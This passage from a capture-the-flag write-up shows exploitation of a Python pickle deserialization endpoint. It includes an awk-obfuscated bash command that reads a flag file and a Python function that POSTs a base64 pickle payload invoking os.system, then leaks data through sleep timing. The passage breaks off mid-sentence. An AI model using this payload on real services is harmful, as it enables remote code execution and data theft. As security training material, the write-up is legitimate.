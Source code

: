 ``` {.Bash language="Bash"}
cat $(awk 'BEGIN{printf "%c", 46}')
        $(awk 'BEGIN{printf "%c", 46}')
        $(awk 'BEGIN{printf "%c", 47}')
        flag$(awk 'BEGIN{printf "%c", 46}')txt
```

For simplicity I will replace this bash command above in the future with
`CAT`. To test the information leaking via sleep I started with the
length. I used

``` {.Bash language="Bash"}
sleep $(CAT | wc -c)
```

to sleep the server for the length of the flag. To catch this
information I implemented this in python:

``` {.python language="Python"}
def send_code(code):
    payload = b"cos\nsystem\n(S'" + code + b"'\ntR"
    exploit = base64.b64encode(payload).decode()
    form = {
            'data': exploit
    }
    start_time = time.time()
    r = requests.post("http://IP:PORT/deserialize", data=form)
    end_time = time.time()
    elapsed_time = end_time - start_time
    print(f"Request took {elapsed_time:.1f} seconds")
    print(r.status_code)
    print(r.text)
    return elapsed_time
```

'code' is the bash code and 'elapsed_time' would be the length of the
flag in this case. I got 15 for the length of my dummy flag (which was
correct) and 25 for the actual challenge flag. To test for lags to the
remote server, I made several requests and compared the expected run
time to the actual runtime since this could add noise to the sleep based
data transfer. The highest lag I got was 0.6 seconds. I decided it was
fine and continued.

## Code Generation

It is possible to write anything is this subset of bash, but it wasn't
nice to code. I decided to use this first command as a foundation. The
rest I implemented in Python with string operations that expand this
foundation.

## Data Transfer Algorithm

Since I didn't know (and didn't test for) what kind of server the
challenge was hosted on. I saw that my teammates had the same ip/port as
me and I was a little worried about what would happen if I sleep the
server for something along the lines of 10-30 minutes to extract the
data. I started to implemented a way to get information of substring of
the flag with this function:
